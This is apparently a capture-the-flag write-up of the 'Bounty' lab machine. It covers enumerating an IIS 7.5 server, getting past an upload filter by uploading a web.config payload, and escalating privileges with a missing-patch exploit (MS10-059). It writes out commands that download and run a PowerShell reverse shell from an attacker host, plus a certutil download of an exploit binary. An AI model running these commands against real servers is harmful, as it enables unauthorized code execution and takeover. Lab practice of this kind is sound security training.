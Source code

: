 # About
Bounty is an easy to medium difficulty machine, which features an interesting technique to bypass file uploader protections and achieve code execution. This machine also highlights the importance of keeping systems updated with the latest security patches. 
## Skills Required
● Basic knowledge of VBScript or C#, VB.NET
## Skills Learned
● web.config payload creation
● Identification of missing security patches
● Exploit selection and execution
## Enumeration
`nmap -A -T4 -p- 10.129.30.81`
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: Bounty
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
```
Looking at the responses from the server in burb shows us this site is most likely running ASP

![](Images/Pasted%20image%2020250417104923.png)
So we can tie that into our enumeration for Fuzzing
`ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.129.30.81:80/FUZZ`

![](Images/Pasted%20image%2020250417105236.png)
`ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.129.30.81:80/FUZZ.aspx
`
![](Images/Pasted%20image%2020250417105255.png)
![](Images/Pasted%20image%2020250417105749.png)
## Exploit

The transfer file appears to be a file upload and the files are sent to the uploaded files. Lets first see if we can get a simple aspx webshell. It ends up erroring out which probably means we have some sort of filtering on the upload
![](Images/Pasted%20image%2020250417105828.png)
Lets see if we can modify the request to test extensions using intruder.
Nothing seemed to have gotten really anywhere with the basic, but I was using a bad payload. The website allows uploads of jpg files.

![](Images/Pasted%20image%2020250417111109.png)
![](Images/Pasted%20image%2020250417110545.png)

![](Images/Pasted%20image%2020250417111140.png)

Using this we can attempt to trick the filter into letting us through with methods such as double extensions.
![](Images/Pasted%20image%2020250417110707.png)
![](Images/Pasted%20image%2020250417110713.png)
Navigating to cmdasp.aspx.jpg didn't get us execution, so maybe we need to use a nullbyte in order to store it as a aspx file while passing the whitelist as jpg. 
![](Images/Pasted%20image%2020250417111533.png)
Since that didn't work I went back to enumerating and found a list of asp extensions and used that for intruder, and made sure to disable URL encoding.
![](Images/Pasted%20image%2020250417112714.png)
We find another allowed upload is a .config file.
Upon a quick google search we find ASP.NET config file is web.config. [Web.Config Reverse Shell](https://github.com/d4t4s3c/OffensiveReverseShellCheatSheet/blob/master/web.config)
We will have to do some modifications to this to get a shell.
`wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1 > shell.ps1`
We will need to add the commands to run the reverse shell.
`echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.251 -Port 4444' >> shell.ps1`
the config file will not look like this
`obj.Exec("cmd /c powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.251/shell.ps1')")`
If everything goes right we pop a shell as user merlin
![](Images/Pasted%20image%2020250417115051.png)
Grab the user flag and keep moving forward.

![](Images/Pasted%20image%2020250417115409.png)
## Priv Esc
Sysinfo
```
Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3606965-84760
Original Install Date:     5/30/2018, 12:22:24 AM
System Boot Time:          4/17/2025, 5:26:39 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 11/12/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,472 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,486 MB
Virtual Memory: In Use:    609 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.30.81
                                 [02]: fe80::e518:9b96:337f:8fe3
                                 [03]: dead:beef::e518:9b96:337f:8fe3

```
`python2 exploit-suggester.py --database 2025-04-16-mssb.xls --systeminfo sysinfo.txt`
```
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

**MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important**
![](Images/Pasted%20image%2020250417120256.png)
`certutil -urlcache -split -f http://10.10.14.251:8080/exploit.exe exploit.exe`
![](Images/Pasted%20image%2020250417120429.png)
`.\exploit.exe 10.10.14.251 4445`
![](Images/Pasted%20image%2020250417120716.png)
![](Images/Pasted%20image%2020250417120723.png)
